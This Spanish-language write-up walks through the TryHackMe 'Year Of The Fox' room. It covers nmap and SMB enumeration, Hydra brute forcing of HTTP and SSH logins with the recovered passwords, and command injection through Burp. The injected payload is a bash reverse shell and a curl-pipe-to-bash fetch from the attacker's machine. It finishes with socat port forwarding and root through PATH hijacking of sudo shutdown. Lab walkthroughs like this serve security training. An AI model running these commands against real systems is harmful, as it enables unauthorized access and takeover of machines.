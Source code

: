 ```yaml
---
title : MQ|FOX|SMB|JAVA|RCE|SOCAT|PATH.HCK
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="/imgs/YerOfTheFox/YerOfTheFox0.png" style="border-radius: 150px; width: 169px" alt="Calamity log">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Difícil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/r/room/yotf" style="color: lightblue;">Year Of The Fox</a></p>
    </div>
</div>

<h2><font color="white"><center># Fox</center></font></h2>

* Empezamos lanzando un ping a la maquina para observar la trazabilidad de conexión y enumerar por su ttl el sistema operativo, que en este caso es una maquina Linux.

```java
# ping 10.10.92.139 -c1 -R
PING 10.10.92.139 (10.10.92.139) 56(124) bytes of data.
64 bytes from 10.10.92.139: icmp_seq=1 ttl=60 time=410 ms
RR: 	10.17.21.18
	10.16.107.119
	10.10.92.139
	10.10.92.139
	10.17.0.1
	10.17.21.18


--- 10.10.92.139 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 410.246/410.246/410.246/0.000 ms
```

* Ahora procedemos a enumerar puertos abiertos en el servidor.

```java
# Nmap 7.94SVN scan initiated Thu Dec 19 14:29:55 2024 as: nmap --min-rate 5000 -sS -Pn --open -p- -A -sCV -v -oN all_services 10.10.92.139
Nmap scan report for 10.10.92.139
Host is up (0.40s latency).
Not shown: 64446 closed tcp ports (reset), 1086 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
|_http-title: 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 21.338 days (since Thu Nov 28 06:24:38 2024)
Network Distance: 5 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2024-12-19T19:30:34+00:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   YEAR-OF-THE-FOX<00>  Flags: <unique><active>
|   YEAR-OF-THE-FOX<03>  Flags: <unique><active>
|   YEAR-OF-THE-FOX<20>  Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   YEAROFTHEFOX<00>     Flags: <group><active>
|   YEAROFTHEFOX<1d>     Flags: <unique><active>
|_  YEAROFTHEFOX<1e>     Flags: <group><active>
| smb2-time: 
|   date: 2024-12-19T19:30:34
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   276.97 ms 10.17.0.1
2   ... 4
5   399.17 ms 10.10.92.139
```
* Procedemos a ver el puerto http 80 que corre el servidor, y vemos que nos muestra un login.

<img src="imgs/YerOfTheFox/YerOfTheFox1.png">

* Usamos smbmap para listar carpetas compartidas, y vemos que no tenemos acceso.

        smbclient -H MAQUINA_IP 
         
```java
# smbmap -H 10.10.92.139
[+] Guest session   	IP: 10.10.92.139:445	Name: 10.10.92.139                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	yotf                                              	NO ACCESS	Fox's Stuff -- keep out!
	IPC$                                              	NO ACCESS	IPC Service (year-of-the-fox server (Samba, Ubuntu))
```

* Procedemos a usar enum4linux para enumerar mas a detalle usuarios y información relevante.

        enum4linux MAQUINA_IP

```java
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
 S-1-22-1-1000 Unix User\fox (Local User)
 S-1-22-1-1001 Unix User\rascal (Local User)
```

* Usamos hydra para hacer un ataque con estos usuarios encontrados.

            hydra -l rascal -P /usr/share/wordlists/rockyou.txt -f 10.10.92.139 http-head

```java
 # hydra -l rascal -P /usr/share/wordlists/rockyou.txt -f 10.10.92.139 http-head
 Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, 
 hese *** ignore laws and ethics anyway).

 [80][http-head] host: 10.10.92.139   login: rascal   password: othello
 [STATUS] attack finished for 10.10.92.139 (valid pair found)
 1 of 1 target successfully completed, 1 valid password found
```

* Ahora con la credencial encontrada y el usuario vemos que hay en la pagina web.

<img src="imgs/YerOfTheFox/YerOfTheFox2.png">

* Usamos BurpSuite para controlar el trafico y hacer tests, vemos que usa cadenas java, en el apartado target, procedemos entonces a inyectar comandos 

        echo '/bin/bash -c "bash -i >& /dev/tcp/TU_IP/PUERTO 0>&1"' > data # Creamos el archivo data.

        sudo python3 -m http.server 80 # Creamos el servicio compartido.

        nc -nlvp PUERTO # Nos ponemos en escucha.
        
        sintaxis "\";curl 10.17.21.18/data | bash;\"" # Lo que haces es dentro de 2 comillas simples colocar el comando a ejecutar y se separan para que no entren en conflicto las multiples comillas. de esta manera hacer que java interprete el comando.

<img src="imgs/YerOfTheFox/YerOfTheFox3.png">


* Ganamos acceso al sistema después de lanzar la petición.

```java
www-data@year-of-the-fox:/dev/shm$ whoami
www-data
```

* Procedemos a enumerar puertos internos de la maquina y vemos que hay un puerto ssh corriendo de manera interna.
        
        netstat -nl

```java
www-data@year-of-the-fox:/dev/shm$ netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:netbios-ssn     0.0.0.0:*               LISTEN     
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN     
tcp        0      0 localhost:ssh           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:microsoft-ds    0.0.0.0:*               LISTEN     
tcp6       0      0 [::]:netbios-ssn        [::]:*                  LISTEN     
tcp6       0      0 [::]:http               [::]:*                  LISTEN     
tcp6       0      0 [::]:microsoft-ds       [::]:*                  LISTEN 
```


* Vemos el archivo de configuración /etc/ssh/sshd_config y vemos que el usuario fox esta en lista de admitidos.

```java
www-data@year-of-the-fox:/dev/shm$ cat /etc/ssh/sshd_config  | tail -n 1
AllowUsers fox
```

* Procedemos a transferirnos socat para hacer port for warding y hacer el puerto ssh correr de manera local.

        ./socat.bin tcp-listen:8888,reuseaddr,fork tcp:localhost:22


<img src="imgs/YerOfTheFox/YerOfTheFox4.png">

* Procedemos a hacer un ataque con hydra con el usuario fox.

```java
 # hydra -l fox -P /usr/share/wordlists/rockyou.txt 10.10.92.139 -s 8888 ssh

 [DATA] attacking ssh://10.10.92.139:8888/
 [8888][ssh] host: 10.10.92.139   login: fox   password: 147852
 1 of 1 target successfully completed, 1 valid password found
```
 
* Nos conectamos por ssh de manera satisfactoria.

        ssh fox@maquina_ip -p 8888

<img src="imgs/YerOfTheFox/YerOfTheFox5.png">

* A la hora de correr el comando sudo -l vemos que no hay un path de ruta segura, lo que lo implica a poder manipular esta ruta a la hora de correr comando como usuario sudo, de esta forma poder elevar privilegios.

```java
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
```

* Vemos que el binario /usr/sbin/shutdown lo que hace es llamar a shutdown de forma externa al parecer.

<img src="imgs/YerOfTheFox/YerOfTheFox6.png">

* Procedemos entonces a copiar el binario /bin/bash y pegar como /tmp/shutdown

```java
fox@year-of-the-fox:/dev/shm$ cp /bin/bash /tmp/shutdown
fox@year-of-the-fox:/dev/shm$ export PATH=/tmp:$PATH
fox@year-of-the-fox:/dev/shm$ sudo /usr/sbin/shutdown
root@year-of-the-fox:/dev/shm# whoami
root
```

* Y listo lo que hicimos fue alterar la ruta para que primero busque por /tmp/ el binario shutdown si lo encuentra entonces este lo ejecutara, de esta forma nos da la shell como root puesto que renombramos el binario para fuera shutdown en ves de bash. 